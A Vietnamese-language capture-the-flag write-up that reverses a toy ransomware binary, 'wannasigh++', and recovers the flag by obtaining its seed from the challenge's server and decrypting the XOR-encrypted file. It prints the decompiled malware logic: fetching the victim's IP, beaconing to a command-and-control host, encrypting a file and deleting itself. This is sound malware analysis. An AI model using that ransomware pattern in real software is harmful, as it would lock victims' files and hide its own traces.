

# Challenge

<p align="center">
  
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`

# Rethinking
Bài này mình có 2 chỗ tới giờ mình vẫn chưa hiểu, mong các cao nhân có thể giúp mình hoàn thiện hơn =(((
  - Nếu để ý trong chương trình ta có đoạn chương trình nhỏ thế này:

<p align="center">
  
</p>

    Ngay khúc này, mình thực sự thắc mắc là `seed` truyền vô chắc chắn là `0x2a`, nhưng khi debug <i>lần đầu tiên</i>, mình lại ra một kết quả khác là `0x607a2592`, cũng chính là số mà server sẽ trả về cho mình
  - Mục đích mình in nghiêng cụm từ `lần đầu tiên` là vì khi minh debug lại chương trình, mình phát hiện ra rằng khi gửi request lên server lần thứ 2 liên tiếp trở đi, mình nhận một kết quả hoàn toàn khác so với lần đầu:

<p align="center">
  
</p>

    Mình phải chờ một khoảng thời gian lâu sau đó thì mình mới có thể nhận lại kết quả ban đầu. Lúc này mình thắc mắc là do bên server nó cố tình code như thế, hay là do mình đã chưa hiểu gì đó về mấy cái mạng network này @@, hoặc có thể có đoạn nào đó trong bin mình đã đọc chưa kĩ =((((